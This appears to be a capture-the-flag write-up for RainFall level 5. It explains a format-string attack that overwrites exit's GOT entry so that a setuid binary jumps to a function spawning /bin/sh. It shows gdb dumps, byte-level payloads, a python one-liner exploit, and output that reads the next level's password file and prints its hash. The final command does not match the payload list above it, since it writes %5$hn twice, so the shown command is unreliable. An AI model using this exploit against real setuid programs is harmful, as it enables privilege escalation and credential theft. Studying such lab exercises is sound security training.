


1. cf `source.c` => Very close to level 3, but now right after printf(), the exit(1) function is called to quit the program.

2. `info functions` => we see that there is a `o()` function. `disas o` => it calls `system("/bin/sh")`

3. here we have our stack at time of printf() call :

    


    At first I thought to modify the address of the next instruction at tiem of printf() call, with the address of o().
    I will explian how I proceeded, explain why it does not work, and make a very small change to make it work :


4. Let's find the address of o() :
`disas o` => **0x080484a4** this is the address we will have to record in replacement of the address stored as next instruciton at time of printf() call ($eip of n() function)

5. Let 's find the address of $eip at which we should record this value:

    - set a breakpoint at printf call :

    ```
    Breakpoint 11, 0x080484f3 in n ()
    (gdb) disas
    Dump of assembler code for function n:
    0x080484c2 <+0>:	push   ebp
    0x080484c3 <+1>:	mov    ebp,esp
    0x080484c5 <+3>:	sub    esp,0x218
    0x080484cb <+9>:	mov    eax,ds:0x8049848
    0x080484d0 <+14>:	mov    DWORD PTR [esp+0x8],eax
    0x080484d4 <+18>:	mov    DWORD PTR [esp+0x4],0x200
    0x080484dc <+26>:	lea    eax,[ebp-0x208]
    0x080484e2 <+32>:	mov    DWORD PTR [esp],eax
    0x080484e5 <+35>:	call   0x80483a0 <fgets@plt>
    0x080484ea <+40>:	lea    eax,[ebp-0x208]
    0x080484f0 <+46>:	mov    DWORD PTR [esp],eax
    => 0x080484f3 <+49>:	call   0x8048380 <printf@plt>
    0x080484f8 <+54>:	mov    DWORD PTR [esp],0x1
    0x080484ff <+61>:	call   0x80483d0 <exit@plt>
    End of assembler dump.
    ```

    - then step into printf : `si` This will have push $eip on the stack. Now we can look at the value stored on top of the stack (at $esp), and it should be the value of the next instruction following `printf()` call (see dump above : **0x080484f8**)

    ```
    Dump of assembler code for function printf@plt:
    =>  0x08048380 <+0>:	jmp    DWORD PTR ds:0x8049824
        0x08048386 <+6>:	push   0x0
        0x0804838b <+11>:	jmp    0x8048370
    End of assembler dump.
    (gdb) i r $esp
    esp            0xbffff4cc	0xbffff4cc
    (gdb) x/4wx 0xbffff4cc
    0xbffff4cc:	0x080484f8	0xbffff4e0	0x00000200	0xb7fd1ac0
    (gdb)
    ```

    This is exactly what we were expecting!
    So the address to modify on the stack is : **0xbffff4cc** : this is the place where $eip is going to recover the next instruction when exiting printf!

    6. Defining the payload:

    - As the number to record (which will be the number of bytes printed out by printf) is too high **0x080484f8**, we will split it into two short ints that we will record on two consecutive two-bytes address location : **0x0804 = 2052** at **0xbffff4ce** and **0x84f8 = 33956** at **0xbffff4cc**.

    Recall : 

    


    - SO the payload is:
        * \xce\xf4\xff\xbf      --> 4 bytes
        * \xcc\xf4\xff\xbf      --> 4 bytes
        * %2044d                --> 2052 - 8 bytes already written
        * %4$hn                 --> `hn` is for `half-word` meaning we are going to write a short int on 2 bytes of memory. The first address written in our buffer is at 4 * 4 = 16 bytes from our printf argument (cf first diagram above)
        * %31904d               --> 33956 - 2052 bytes already written
        * 5$hn


    7. When we build the payload and cat it into the program, as we follow along with gdb, we can see that it works => it calls the `o()` function. But via gdb, the `setuid` bit is off, and a command is executed with the permission of the user who runs the program, not with the permissions of the one owning it. So we just have to launch it outside gdb. But now it does not work... `Illegal instruction`. Why is that?


    8. gdb loads a couple of variables onto the stack => teh stackframe is not at the same level as when running outside of gdb! offsets, memory value in data segment are the same, but not hard-coded value on the stack! So the address of o() is the same, but not the one where the next instruciton following printf() call is stored! Hence it does not work. There is probably a way to discover the size of variables loaded into the stack by gdb, but here there is a better way.


    9. In n() memory dump above, we can see that following printf, the `exit()@plt` function is called. plt stands for `Procedure Linkage Table`. The use of the plt happens when there is a dynamic linkage to a library. The compiler does not know until runtime where the function to be called is located. So the program says "go get this function in the table and put its address here".

        ```
            0x080484f8 <+54>:	mov    DWORD PTR [esp],0x1
            0x080484ff <+61>:	call   0x80483d0 <exit@plt>
        End of assembler dump.
        (gdb) disas 0x80483d0
        Dump of assembler code for function exit@plt:
            0x080483d0 <+0>:	jmp    DWORD PTR ds:0x8049838
            0x080483d6 <+6>:	push   0x28
            0x080483db <+11>:	jmp    0x8048370
        End of assembler dump.
        (gdb) x/s 0x8049838
            0x8049838 <exit@got.plt>:	 "\326\203\004\b\346\203\004\b"
            (gdb)
        ```

        **got** stands for "Global offset table"

        So here our aime is to jump at `o()` function instead of at the plt inside the `exit@plt` call!

        --> We have to write the exact same number (the start of the o() function), but at a different memory location ; **0x08049838**

    10. Final payload:

        * \x3a\x98\x04\x08      --> 4 bytes
        * \x38\x98\x04\x08      --> 4 bytes
        * %2044d                --> 2052 - 8 bytes already written
        * %4$hn                 --> `hn` is for `half-word` meaning we are going to write a short int on 2 bytes of memory. The first address written in our buffer is at 4 * 4 = 16 bytes from our printf argument (cf first diagram above)
        * %31904d               --> 33956 - 2052 bytes already written
        * 5$hn


    ```
    level5@RainFall:~$ (python -c 'print("\x3a\x98\x04\x08" + "\x38\x98\x04\x08" + "%2044d%5$hn%31904d%5$hn")') > /tmp/exploit5
    level5@RainFall:~$ cat /tmp/exploit5 - | ./level5
    ````

    output:

    ```
                                                                                                                                                                                                                                                                                                                 -1208149312
    cat /home/user/level6/.pass
    d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
    ```